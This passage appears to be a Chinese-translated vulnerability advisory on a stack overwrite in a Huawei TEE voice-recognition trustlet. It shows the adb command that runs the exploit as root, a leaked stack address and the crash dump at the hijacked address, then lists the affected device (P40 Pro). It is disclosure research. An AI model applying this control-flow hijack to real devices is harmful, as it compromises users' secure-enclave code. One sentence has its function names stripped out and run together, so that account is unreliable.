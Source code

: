 通过定位保存在堆栈上的链路寄存器，我们可以劫持 Trustlet 的执行流。我们计算了 的局部变量和 的保存链路寄存器之间的堆栈偏移量。然后，我们在结果地址上写入任意值，并观察到控制流被重定向。float0CompareVoiceTaTEE_FreeReleaseTa  
  
在漏洞利用中，我们使用 0x70000000，因为我们只能使用取消链接技术写入表示可写地址的值，但应该可以使用类似于我们在TEE_SERVICE_MULTIDRM漏洞中使用的技术来构造不受限制的任意写入。  
  
以下是漏洞利用代码的输出，显示了泄露的堆栈地址：  
```
```  
```
adb wait-for-device shell su root sh -c "/data/local/tmp/tee_service_voice_rec"
stack_addr = 6b969dc

```  
  
以及当控制流重定向时立即发生的崩溃：  
```
```  
```
[HM] ESR_EL1: 8200000f, ELR_EL1: 70000000, FAR is not valid
[HM] TEE_SERVICE_VOI vm fault prefetch abort: 70000000
[HM] fault: 8200000f tcb cref 2200000028
[HM] Registers dump:
[HM] ----------
[HM] 32 bits userspace stack dump:
[HM] ----------
[HM] <?>+0x0/0x0
[HM] [ERROR][2496]process 2200000028 (tid: 40) data abort:
[HM] [ERROR][2498]Bad memory access on address: 0x70000000, fault_code: 0x8200000f
[HM]
[HM] Dump task states for tcb
[HM] ----------
[HM]     name=[TEE_SERVICE_VOI] tid=40 is-idle=0 is-curr=0
[HM]     state=BLOCKED@MEMFAULT sched.pol=0 prio=46 queued=1
[HM]     aff[0]=ff
[HM]     flags=1000 smc-switch=0 ca=10335 prefer-ca=10335
[HM] Registers dump:
[HM] ----------
[HM] 32 bits userspace stack dump:
[HM] ----------
[HM] <?>+0x0/0x0
[HM] Dump task states END
[HM]
[HM] [TRACE][1212]pid=67 exit_status=130

```  
## 受影响的设备¶  
  
我们验证了这些漏洞是否影响了以下设备：  
- 麒麟990：P40 专业版 （ELS）  
  
请注意，其他型号可能已受到影响。  
## 补丁¶  